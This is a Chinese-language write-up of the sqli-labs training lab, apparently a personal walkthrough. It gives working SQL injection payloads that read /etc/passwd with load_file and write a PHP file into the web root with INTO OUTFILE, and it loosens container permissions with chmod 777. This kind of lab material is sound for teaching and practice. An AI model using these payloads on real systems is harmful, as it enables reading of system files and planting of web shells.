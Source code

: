 我的题目环境是使用docker部署的，完整网络根路径我并不知道，但是可以知道现在遇到的题目都是在`Less-n`目录下

回到前面几关，尝试验证路径

在`Less-1`中，使用`?id=0' union select 1,2,load_file('/etc/passwd')%23`读取`/etc/passwd`，存在`www-data`用户，用户目录`/var/www/`，猜测网站更目录大概是`/var/www/html/`

![12](/medias/sqli-labs/12.png)

尝试读取`/var/www/html/Less-1/index.php`文件，成功读取到内容，可以验证根目录`/var/www/html/`

![13](/medias/sqli-labs/13.png)

可以尝试在`Less-7`题目页面写入木马

传入参数`?id=1`、`?id=1"`时页面正常，传入`?id=1'`时报错，尝试传入`?id=1'%23`注释掉后面内容时，页面仍然报错

![14](/medias/sqli-labs/14.png)
测试可以发现，在传入`?id=1'))%23`时，页面正常，可以猜测后台sql语句类似

```php
$id = $_GET['id'];
$sql = "select * from users where id = (('$id'))";
```

尝试写入木马，检查没有语法错误，页面提示`You have an error in your SQL syntax`

```php
?id=0')) union select 1,2,'<?=phpinfo();?>' into outfile "/var/www/html/Less-7/abc.php"%23
```

回到`Less-1`环境简单验证，在写入木马时，提示`Can't create/write to file '/var/www/html/Less-7/abc.php' (Errcode: 13)`

![15](/medias/sqli-labs/15.png)

大佬提示`错误代码为 13 的时候是没有权限，可以考虑/tmp 等文件夹`

`/var/www/html/`目录没有写的权限，这里不能像其他writeup一样写木马了。尝试把数据库信息写入到`/tmp`目录

```php
```php
url/Less-7/?id=0')) union select 1,2,'fuck' into outfile "/tmp/fuck"%23
```

在`Less-1`环境里读取，验证成功写入

![16](/medias/sqli-labs/16.png)

### 解决权限问题

这个docker镜像作者可能没考虑到权限问题，可以进入容器给权限

```bash
docker exec -it sqli-lab /bin/sh
chmod 777 -R /var/www/html/
```

现在应该可以正常写入文件了

```php
?id=0')) union select 1,2,'<?=phpinfo();?>' into outfile "/var/www/html/Less-7/abc.php"%23
```
